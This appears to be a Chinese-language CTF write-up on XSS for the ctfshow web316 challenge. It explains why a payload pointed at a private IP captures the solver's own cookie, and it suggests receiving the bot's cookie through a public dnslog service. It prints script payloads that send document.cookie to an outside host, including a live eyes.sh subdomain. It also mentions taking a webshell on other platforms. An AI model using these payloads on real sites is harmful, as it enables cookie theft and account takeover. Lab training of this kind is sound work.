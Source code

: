 什么是XSS？攻击者准备了一个payload，在用户点击后，在用户浏览器里执行了攻击者提供的javascript代码，js代码可以获取到用户的cookie等信息。xss题目一般后台会有一个机器人脚本/功能，定期执行用户提交的payload。

例如，一个页面，会把url里的参数值显示在页面，例如`http://example.com/?name=<script>alert(1)</script>`，如果页面没有对参数值进行过滤，直接显示在页面上，那么就会执行`<script>alert(1)</script>`这段代码，弹出一个提示框。

什么是叉自己？

## 叉自己举例/细节

下面以web316具体举例。

打开靶机，看看自己的cookie，`flag=you are not admin no flag`，真实的flag是网站管理员的cookie，也就是后台的xss bot机器人的cookie

![1](./images/xss/1.png)

随便输入111，提交，提交的内容111直接显示在了页面上。重点提交的111是一个get参数出现在url里，可以在页面直接显示，有xss漏洞的可能。

![2](./images/xss/2.png)

提交一串js代码

```javascript
<script>alert(1)</script>
```

页面成功执行了js代码，弹出提示框1，说明有xss漏洞。

![3](./images/xss/3.png)

可以使用js代码，在用户打开恶意构造的url时，执行js，发起一个网络请求，把用户的cookie发送到攻击者的服务器上。

**窃取用户cookie有什么用？**，对于一些简单的站点，在访问站点时，带上该用户的cookie，有可能可以直接登录该用户的账号，获取用户的敏感信息。

例如下面这段代码，获取当前页面网站的cookie，把网站重定向请求攻击者的服务器上，把这里的`http://example.com`换成自己服务器的ip就可以收到这个xss请求的cookie。

```javascript
<script>
window.location.href = 'http://example.com/?cookie=' + document.cookie
</script>
```

新手师傅自然而然想到查看自己电脑的ip，把上面换成自己的ip，PHPstudy或者python开个web服务，发现flag是`you are not admin no flag`，没有拿到flag。

例如我使用python开一个python http服务，我的ip是`192.168.6.116`，端口4444

![4](./images/xss/4.png)

**你拿到的这个cookie是谁的？你自己的。你写了一个恶意xss payload在攻击自己，叉自己。在你提交这个恶意payload时，靶机后台xss bot在执行这个js代码时，在他内网没有这个主机，找不到他内网的192.168.6.116这个ip，访问不到你的192，172，10段ip**

![5](./images/xss/5.png)

## 解决方案

那就有好奇宝宝要问了，对啊对啊，我是内网ip，靶机访问不到我，我该怎么做这题？好问题，提供几个简单的方法

- 使用网络上免费提供的`weblog`平台，把xss的请求url叉到这里。（简单推荐，0成本，即开即用）
- 使用自己的公网服务器python开启一个http服务。注意不要直接在`~`目录开启，会泄露`~`目录的所有文件，网络上会有恶意攻击者专门扫描这个特征指纹。
- 如果你在做ctfshow的xss，同时你还有攻防世界、buuctf、nssctf靶场的账号，在其他靶场找个简单的web题目，拿个webshell，写个php文件，把url请求的参数值写进文件。
- 使用内网穿透攻击，把本地内网ip、端口映射到公网。

这里只介绍第一种方法，其他方法自行探索。

`weblog`推荐平台 [eyes.sh](https://eyes.sh/dns/)

打开，直接使用平台分配的账号进去，不需要自己注册。

在`dnslog`页面，记录分配给你的子域名

![6](./images/xss/6.png)

修改xss payload，把受害者（xss bot）的cookie叉到这里，不出意外的话，会收到两个请求，一个是你提交payload时触发的请求，另一个是靶机后台xss bot执行payload时触发的请求。

```javascript
<script>
window.location.href = 'http://enwvbm6o.eyes.sh/?cookie=' + document.cookie
</script>
```

验证成功

![7](./images/xss/7.png)
